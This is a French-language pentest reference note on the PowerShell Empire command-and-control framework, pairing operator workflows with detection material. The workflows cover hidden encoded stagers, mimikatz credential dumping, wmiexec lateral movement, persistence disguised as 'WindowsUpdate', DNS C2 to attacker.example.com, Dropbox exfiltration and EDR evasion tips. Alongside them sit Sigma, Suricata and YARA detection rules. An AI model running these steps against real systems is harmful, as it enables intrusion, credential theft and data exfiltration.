


# 🕹️ PowerShell Empire — C2 & Post-Exploitation

> [!info] **En 1 phrase**
> Empire (Empire Starkiller / BC Security fork) est un framework de post-exploitation et de command & control piloté en PowerShell (agents Windows) et Python (agents Linux/macOS).

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | PowerShell Empire (Empire) |
| Description | Framework C2 et post-exploitation : agents PowerShell (Windows) et Python (Linux/macOS), bibliothèque de modules étendue |
| Catégorie | 🕹️ C2 & Post-Exploitation |
| Sous-catégorie | Command & Control (C2), post-exploitation |
| Fonction principale | Contrôler des agents post-compromission, automatiser privesc/persistance/exfiltration |
| Type d'outil | Framework (server + client CLI + UI web Starkiller) |
| Licence | BSD-3-Clause |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | PowerShell (~94 %), Python |
| Développeur / organisation | BC-SECURITY (fork actif depuis 2019 du projet PowerShellEmpire) |
| Projet officiel | Empire |
| Dépôt officiel | https://github.com/BC-SECURITY/Empire |
| Documentation officielle | https://bc-security.gitbook.io/empire-wiki/ |
| Date de création | Projet Empire originel 2016 ; fork BC-SECURITY en 2019 |
| État du projet | actif (dernière release v6.6.0 le 2026-04-25) |
| Dernière version connue | v6.6.0 |
| Systèmes compatibles | Server : Linux ; agents : Windows (PowerShell), Linux/macOS (Python) |

> [!note] Pour vérifier / compléter
> Empire est identifié dans MITRE ATT&CK sous l'identifiant logiciel **S0363**.

---

## 🎯 Concept

Empire permet, après une compromission initiale, de déployer un **agent** (stager PowerShell ou Python) qui se connecte à un **listener** contrôlé par le serveur Empire. L'architecture historique est un serveur de commandes (`empire server`) auquel se connecte un client (`empire client`), désormais complété par **Starkiller**, une interface web moderne. Il est utilisé pour automatiser la persistance, l'exfiltration et l'escalade de privilèges via une bibliothèque de modules (privesc, exfil, persistence, lateral-movement).

Sa force : 100 % in-memory côté Windows (via PowerShell) pour limiter les écritures disque, et une **API REST** permettant d'intégrer les opérations dans des scripts. Dans un pentest, Empire se place en **post-exploitation / C2** après une initial foothold : on génère un stager, on l'exécute sur la cible, et l'agent établit un canal (HTTP, HTTPS, DNS) vers le listener avant de faire tourner les modules de mouvement latéral et d'exfiltration.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Server | Processus `empire server` qui héberge listeners, agents et modules ; expose une API REST. |
| Client | CLI `empire client` qui s'authentifie sur le server pour piloter les opérations. |
| Starkiller | UI web moderne (port 1337) alternative au client CLI. |
| Listener | Canal réseau (HTTP, HTTPS, DNS) qui reçoit les connexions des agents. |
| Stager | Petit code de démarrage (PowerShell, DLL, launcher) qui télécharge/charge l'agent en mémoire. |
| Agent | Processus (PowerShell in-memory ou Python) qui communique avec le listener. |
| Cradle | Technique de livraison PowerShell (`IEX (New-Object Net.WebClient).DownloadString(...)`). |
| API REST | Interface JSON permettant d'automatiser Empire (génération de stagers, envoi de commandes). |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git && cd Empire
# Environnement virtuel Python
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
# Démarrer le serveur puis le client
./ps-empire server
# autre terminal
./ps-empire client
```

### Interface web Starkiller (optionnelle)

```bash
# Compilation depuis le dossier starkiller/ du dépôt
cd starkiller && npm install && npm run build
# URL : https://localhost:1337
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Empire repose sur PowerShell 5.1 pour les agents Windows ; PowerShell Core seul ne suffit pas pour beaucoup de modules.
> - L'installation via `pip` peut nécessiter des outils de compilation (gcc) ; sur Kali, utiliser un `venv` pour éviter les conflits de paquets.

---

## ⚙️ Configuration

La configuration se fait principalement dans le client/Starkiller : création de listeners, génération de stagers, sélection de modules.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `Host` (listener) | URL de callback des agents | `http://IP:port` | Doit être joignable par les cibles | `set Host http://10.10.14.5:80` |
| `Port` (listener) | Port du listener | 80, 443, 53… | Port d'écoute | `set Port 80` |
| `Proxy` / `ProxyCreds` | Passage par proxy | URL / creds | Sortie via proxy d'entreprise | `set Proxy http://proxy.example.com:8080` |
| `UserAgent` | User-Agent du stager | chaîne | Évasion / blanchiment | `set UserAgent "Mozilla/5.0"` |
| `Language` | Langage de l'agent | `powershell` / `python` | Plateforme cible | `set Language python` |

---

## 🏗️ Architecture interne

Le `empire server` (Python) gère une base de données locale (agents, credentials, listeners), une API REST et des conteneurs de listeners. Le `empire client` ou Starkiller s'authentifie et envoie des requêtes à l'API. À la création d'un listener, le serveur ouvre un socket (HTTP/HTTPS/DNS) ; les stagers générés contiennent l'URL du listener et un payload PowerShell/Python.

À l'exécution du stager sur la cible, l'agent PowerShell charge Empire en mémoire (sans écriture disque), se connecte au listener et envoie des « check-ins » périodiques. L'opérateur envoie des tâches : l'agent exécute les commandes ou charge les modules demandés (scripts transférés puis exécutés) ; les résultats remontent au serveur.



---

## ⌨️ Commandes

### Commandes principales

```bash
# Serveur et client
./ps-empire server
./ps-empire client
# Dans le client
listeners
uselistener http
set Host http://10.10.14.5:80
execute
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `listeners` | Liste les listeners actifs | Tableau des listeners |
| `uselistener http` / `https` / `dns` | Charge un type de listener | Prompt de configuration |
| `set Host <url>` / `set Port <p>` | Configure le listener | Paramètres appliqués |
| `execute` | Démarre le listener | Listener actif |
| `agents` | Liste les agents connectés | Tableau des agents |
| `interact <agent-id>` | Mode interactif sur un agent | Invite de la session |
| `usestager windows/powershell` | Charge le générateur de stager | Prompt de configuration |
| `set Listener <nom>` | Associe le stager au listener | Liaison effectuée |
| `generate` | Produit le code à exécuter | One-liner PowerShell affiché |
| `usemodule <module>` | Charge un module | Configuration du module |
| `searchmodule <mot>` | Recherche un module | Liste des correspondances |
| `help` | Aide contextuelle | Commandes disponibles |

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `uselistener http` | Listener HTTP | `uselistener http` | Basic |
| `set Host <url>` | URL de callback | `set Host http://10.10.14.5:80` | Basic |
| `execute` | Démarre le listener | `execute` | Basic |
| `usestager windows/powershell` | Stager PowerShell | `usestager windows/powershell` | Intermediate |
| `set Listener <nom>` | Association au listener | `set Listener http` | Intermediate |
| `generate` | Génère le stager | `generate` | Intermediate |
| `interact <id>` | Session interactive | `interact 1` | Intermediate |
| `usemodule privesc/*` | Escalade de privilèges | `usemodule privesc/windows/getsystem` | Advanced |
| `usemodule exfil/*` | Exfiltration | `usemodule exfil/exfil_dropbox` | Advanced |

> [!tip] Options les plus utiles au quotidien
> `uselistener http` + `set Host` + `execute` ; `usestager windows/powershell` + `generate` ; `interact` puis `usemodule`.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : premier agent Windows
./ps-empire server
# autre terminal
./ps-empire client
uselistener http
set Host http://10.10.14.5:80
execute
usestager windows/powershell
set Listener http
generate
# Copier le one-liner powershell -nop -w hidden -enc <base64> et l'exécuter sur la cible
```

Résultat attendu : l'agent apparaît dans `agents`.

### Intermediate

```bash
# Objectif : piloter l'agent
agents
interact <agent-id>
whoami
hostname
usemodule credentials/mimikatz/logonpasswords
```

### Advanced

```bash
# Objectif : mouvement latéral via Pass-the-Hash
interact <agent-1>
usemodule credentials/mimikatz/logonpasswords
usestager windows/powershell
set Listener http
generate
wmiexec.py DOMAIN/user@10.10.14.20 "powershell -nop -w hidden -enc <stager>"
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Étape 1 — Démarrer serveur et client** : `./ps-empire server` puis `./ps-empire client`.
2. **Étape 2 — Créer un listener HTTP** :
   ```bash
   uselistener http
   set Host http://10.10.14.5:80
   execute
   ```
3. **Étape 3 — Générer un stager** :
   ```bash
   usestager windows/powershell
   set Listener http
   generate
   ```
   Récupérer le one-liner `powershell -nop -w hidden -enc <base64>`.
4. **Étape 4 — Exécuter le stager** sur la cible (via exploit, phishing ou accès admin) → l'agent apparaît dans `agents`.
5. **Étape 5 — Interagir et lancer les modules** :
   ```bash
   interact <agent-id>
   usemodule privesc/windows/*   # selon la plateforme
   usemodule persistence/registry/*
   searchmodule mimikatz
   ```
6. **Étape 6 — Exfiltrer puis nettoyer** : `usemodule exfil/exfil_dropbox` avec le token, ou `download`/`upload` pour récupérer des fichiers, puis `remove <agent-id>` et supprimer le listener en fin d'opération.

---

## 🎬 Scénarios avancés

### Scénario 1 : Mouvement latéral via Pass-the-Hash ou WMI

```bash
interact <agent-1>
usemodule credentials/mimikatz/logonpasswords
usestager windows/powershell
generate
wmiexec.py DOMAIN/user@10.10.14.20 "powershell -nop -w hidden -enc <stager>"
```

### Scénario 2 : Persistance via Scheduled Task ou Registry

```bash
usemodule persistence/powershell/windows/schtasks
set Listener http
set TaskName WindowsUpdate
execute
# Ou via registry run key
usemodule persistence/powershell/windows/registry
execute
```

### Scénario 3 : C2 furtif par DNS

```bash
uselistener dns
set Host attacker.example.com
set Port 53
execute
```

Les requêtes DNS sortantes sont moins filtrées que l'HTTP(S) : utile quand le réseau ne laisse pas passer d'autres protocoles.

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Enuméération | Depuis un agent : `whoami`, `hostname`, modules d'énumération |
| Exploitation | Pas d'exploits intégrés : post-compromission |
| Post-exploitation | Cœur du rôle : privesc, persistence, lateral-movement |
| Exfiltration | Modules `exfil/*` (Dropbox, S3…), `download`/`upload` |
| Mouvement latéral | Credentials via mimikatz, WMI/PsExec, Pass-the-Hash |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | Agents et stagers PowerShell in-memory | ScriptBlock/Module logging, AMSI | Application Control, CLM |
| Execution | Native API | T1106 | Chargement de modules via API Windows | EDR comportemental | EDR |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 | Modules `persistence/registry` | Surveillance clés Run, autoruns | Durcissement clés |
| Privilege Escalation | Access Token Manipulation | T1134 | Modules token (`getsystem`) | EDR, Sysmon EID 8 | Moindre privilège |
| Credential Access | OS Credential Dumping | T1003.001 | Module mimikatz `logonpasswords` | Sysmon EID 10, accès lsass | Credential Guard, LSA protection |
| Lateral Movement | Remote Services: WMI | T1021.003 | `wmiexec` pour livrer les agents | Logs WMI (Sysmon EID 19-21) | Restreindre WMI |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | Listeners HTTP/HTTPS | Analyse des flux HTTP | Filtrage egress |
| Command and Control | DNS | T1071.004 | Listener DNS furtif | Analyse DNS | Egress DNS contrôlé |
| **Software ID** | Empire | S0363 | Identifiant logiciel MITRE de l'outil | — | — |

> [!note] Empire dispose d'un identifiant logiciel MITRE : **S0363**.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Exécution PowerShell encodée (`powershell -enc`) | Logging PowerShell (ScriptBlock + Module), transcript, CLM |
| Blocs base64 ou refus AMSI | AMSI + surveillance des cradles de livraison |
| Connexions HTTP(S) longues vers un C2 externe | Filtrage des sorties, corrélation User-Agent |
| Processus python en arrière-plan avec sockets sortants (Linux/macOS) | Surveillance des processus et connexions |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma — powershell -enc (à adapter)
title: Suspicious PowerShell Encoded Command
status: experimental
description: EncodedCommand PowerShell, technique fréquente des stagers Empire
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\powershell.exe'
    CommandLine|contains: '-enc'
  condition: selection
level: high
```

```bash
# Exemple Suricata — User-Agent Empire (à adapter)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"Potential Empire C2 traffic"; http.user_agent; content:"Mozilla/4.0 (compatible; MSIE 7.0)"; sid:1000004; rev:1;)
```

```yaml
# Exemple YARA — stagers PowerShell Empire encodés (à adapter)
rule Empire_Powershell_stager_example {
  meta:
    description = "Exemple de détection de stagers PowerShell Empire"
  strings:
    $a = "ReflectivePEInjection" ascii
    $b = "powershell-empire" ascii wide
    $c = "func_GetProcAddress" ascii
  condition:
    any of them
}
```

---

## 🤖 Automatisation

L'**API REST** d'Empire permet d'automatiser la création de listeners, la génération de stagers et l'envoi de commandes.

```bash
# Exemple : lister les agents via l'API (conceptuel)
curl -k -s -u empireadmin:password https://localhost:1337/api/v2/agents
```

> [!note] À vérifier
> Les endpoints exacts de l'API REST varient selon les versions (v4/v5/v6) : consulter le wiki BC-SECURITY.

---

## 📤 Output et parsing

Les résultats des tâches remontent dans le client/Starkiller au format texte/JSON. L'API REST renvoie du JSON exploitable par scripts.

```bash
# Récupérer les agents au format JSON via l'API (conceptuel)
curl -k -s -u empireadmin:password https://localhost:1337/api/v2/agents | jq '.agents[] | {name, hostname}'
```

```python
# Exemple de parsing des résultats
# import json, requests
# data = requests.get(url, auth=auth, verify=False).json()
# for a in data["agents"]: print(a["name"], a["hostname"])
```

---

## 🔗 Intégrations

```text
Compromission initiale → stager Empire → agent → modules privesc/persistance/exfil
Empire ↔ Mimikatz (module) ↔ Rubeus (module/credential) → mouvement latéral
```

- [[Tools|🧰 Outils]]
- [[Techniques/Privilege Escalation Windows|⬆️ PrivEsc Windows]]
- [[Techniques/Reverse Shells|🐚 Reverse Shells]]
- [[Techniques/Pass-the-Hash|🔓 Pass-the-Hash]]
- [[Techniques/Kerberoasting|🔑 Kerberoasting]]
- [[Techniques/Pivoting et Tunneling|🌉 Pivoting et Tunneling]]
- [[Outil - Mimikatz|🐱 Mimikatz]]
- [[Outil - Rubeus|🎫 Rubeus]]
- [[Outil - Covenant|🐉 Covenant]]
- [[Outil - Sliver|🐺 Sliver]]

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Covenant | GUI web, .NET, Grunts | Pas de release officielle | Post-exploitation Windows |
| Sliver | Go, cross-platform, actif | Moins de modules intégrés | Engagement long |
| Mythic | Web, modulaire, Apollo Go | Lourd (Docker) | Opérations longues |
| Havoc | Implant C/C++ natif, GUI | Repo archivé | Alternative Cobalt Strike |
| Metasploit | Base d'exploits, mature | Très détecté | Exploitation |

> **Quand utiliser Empire plutôt qu'un autre ?** Quand on vise des environnements **Windows/AD** avec une bibliothèque de modules PowerShell prête à l'emploi (privesc, mimikatz, persistence) — au prix d'une détection plus probable des agents PowerShell par les EDR modernes.

---

## ⚡ Performance

- Agent PowerShell in-memory : faible empreinte disque, mais CPU/mémoire variables selon les modules.
- Le server Python gère de nombreux agents ; charge dépend du nombre de listeners et de tâches.
- Aucun benchmark officiel ; prévoir un VPS Linux avec 1-2 Go de RAM pour de petites opérations.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : l'agent ne se connecte pas

- **Cause** : listener inactif, mauvais Host, firewall.
- **Solution** : vérifier `execute` du listener, tester `nc -v <ip> <port>` depuis la cible.
- **Vérification** : l'agent apparaît dans `agents`.

#### Problème : module PowerShell échoue sur la cible

- **Cause** : PowerShell 5.1 absent (PowerShell Core seul) ou politique d'exécution.
- **Solution** : vérifier la version PowerShell, contourner `ExecutionPolicy` (dans le cadre autorisé).
- **Vérification** : le module renvoie une sortie exploitable.

#### Problème : l'API REST refuse l'authentification

- **Cause** : mauvais identifiants ou certificat non accepté.
- **Solution** : utiliser les creds configurées au premier lancement, `-k` pour le TLS auto-signé.
- **Vérification** : `curl -k -u ... /api/v2/agents` renvoie du JSON.

---

## 🔐 Sécurité de l'outil

- **Chiffrement** : le trafic entre client et server est protégé (certificats) ; vérifier la config TLS du listener HTTPS.
- **Identifiants** : changer les creds par défaut de l'API/Starkiller (config Empire) et les garder secrètes.
- **Stagers détectables** : les one-liners `-enc` sont très surveillés ; combiner livraison (dll, wmic, cradles) et obfuscation, et valider en lab.
- **Logs** : les credentials collectés (mimikatz) et fichiers sont stockés côté server : chiffrer le disque et restreindre l'accès.
- **Usage légal** : uniquement dans le cadre d'engagements autorisés.

---

## ⚠️ Limitations

- Agents PowerShell fortement détectés par AV/EDR modernes (AMSI) : l'évasion repose sur l'obfuscation.
- Nécessite PowerShell 5.1 pour la plupart des modules Windows ; pas de scanner d'exploits (foothold requis).
- API REST et versions (v4/v5/v6) changeantes : scripts à adapter ; modules tiers de qualité variable (valider en lab).

---

## 📋 Cheatsheet

```bash
# Serveur + client
./ps-empire server
./ps-empire client
# Listener HTTP
uselistener http
set Host http://10.10.14.5:80
execute
# Stager PowerShell
usestager windows/powershell
set Listener http
generate
# Interaction
agents
interact <agent-id>
# Modules
searchmodule mimikatz
usemodule privesc/windows/*
usemodule persistence/registry/*
usemodule exfil/exfil_dropbox
# Nettoyage
remove <agent-id>
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Framework C2/post-exploitation : agents PowerShell (Windows) et Python (Linux/macOS) |
| **Quand l'utiliser ?** | Post-compromission Windows/AD : privesc, persistance, exfil |
| **Commande principale** | `./ps-empire server` puis `./ps-empire client` |
| **Alternative principale** | Covenant (web, .NET) ou Sliver (Go) |
| **Concepts importants** | Listener, stager, agent, module, Starkiller, API REST |
| **Liens associés** | [[Outil - Covenant\|🐉 Covenant]] · [[Outil - Sliver\|🐺 Sliver]] · [[Outil - Mimikatz\|🐱 Mimikatz]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Exécution PowerShell encodée (`powershell -enc`) détectée | PowerShell logging (ScriptBlock + Module), transcript, Constrained Language Mode |
| Blocs base64 ou appels AMSI refusés | AMSI + surveillance des refus et des cradles de livraison |
| Connexions HTTP(S) longues vers un C2 externe | Filtrer les sorties, corréler User-Agent inhabituels |
| Création de processus PowerShell suspects, accès mémoire de lsass | Sysmon (EID 1, 10) + EDR |
| Processus python en arrière-plan avec sockets sortants (Linux/macOS) | Surveillance des processus et connexions |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Testez les modules en lab avant engagement : beaucoup reposent sur PowerShell 5.1 et tombent si PowerShell Core seul est installé.
> - Utilisez Starkiller (UI web) pour les équipes, mais maîtrisez d'abord le CLI.
> - Pour les environnements Linux/macOS, générez des stagers Python (`usestager multi/launcher` + `set Language python`).
> - Combinez Empire avec des modules credentials (mimikatz, Rubeus) pour préparer le mouvement latéral.
> - Configurez un User-Agent réaliste sur les listeners pour réduire les signatures réseau.

> [!warning] ⚠️ **Pièges**
> - Les stagers PowerShell encodés en base64 sont détectés par AV/EDR modernes (AMSI + cloud) : ne comptez pas sur `-enc` seul.
> - Vérifiez que la cible atteint bien le listener (port ouvert, firewall) avant de blâmer l'agent.
> - Ne réutilisez pas les mêmes creds par défaut pour l'API/Starkiller.
> - Supprimez les agents et listeners en fin d'opération pour nettoyer l'environnement.

---

## 📚 References

### Official

- Documentation officielle : https://bc-security.gitbook.io/empire-wiki/
- GitHub officiel : https://github.com/BC-SECURITY/Empire
- Releases : https://github.com/BC-SECURITY/Empire/releases

### Security references

- MITRE ATT&CK — Logiciel S0363 : https://attack.mitre.org/software/S0363/
- MITRE ATT&CK — Command and Scripting Interpreter: PowerShell : https://attack.mitre.org/techniques/T1059/001/

### Community

- HackTricks — PowerShell Empire : https://book.hacktricks.xyz/redteam/pentesting-methodology/powershell-empire

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Privilege Escalation Windows|⬆️ PrivEsc Windows]] · [[Techniques/Reverse Shells|🐚 Reverse Shells]] · [[Techniques/Pass-the-Hash|🔑 Pass-the-Hash]]
